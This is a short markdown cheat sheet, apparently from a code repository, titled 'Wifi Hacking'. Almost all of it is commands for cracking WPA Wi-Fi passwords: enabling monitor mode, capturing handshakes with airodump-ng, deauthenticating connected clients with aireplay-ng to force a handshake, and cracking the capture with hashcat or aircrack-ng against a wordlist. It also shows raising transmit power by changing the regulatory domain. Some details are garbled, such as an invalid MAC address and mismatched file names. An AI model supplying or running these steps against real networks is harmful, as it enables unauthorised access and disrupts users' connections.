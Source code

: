 ## Wifi Hacking

**Set interface down**
```
sudo ip link set wlan0 down
```
**Set monitor mode**
```
iwconfig wlan0 mode monitor
```
**Turn up interface**
```
ip link set wlan0 up
```

**Use airmon-ng to put int into monitor mode**
```
airmon-ng start wlan0
```

**listen for all nearby beacon frames to get target BSSID and**
```
airodump-ng wlan0 --band abg
```

**Set 5 GHz channel**
```  
iwconfig wlan0 channel 149
```

**Start listening for the handshake**
```
airodump-ng -c 149 --bssid P4:E4:E4:92:60:71 -w cap01.cap wlan0
```

**Deauth a connected client to force a handshake**
```
aireplay-ng -D -0 2 -a 9C:5C:8E:C9:AB:C0 -c P4:E4:E4:92:60:71 wlan0
```

**Convert cap to hccapx**
```
aircrack-ng -J file.cap capture.hccap
```

**Crack with hashcat**
```
hashcat.exe -m 2500 capture.hccapx rockyou.txt
```

**Setting TX POWER**
```
iw reg set BO
iwconfig wlan1 txpower 25
```

**Cracking WPA**
```
airmon-ng start wlan0
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {disassociation attack}
aircrack-ng -0 -w (wordlist path) (caputure filename)
```
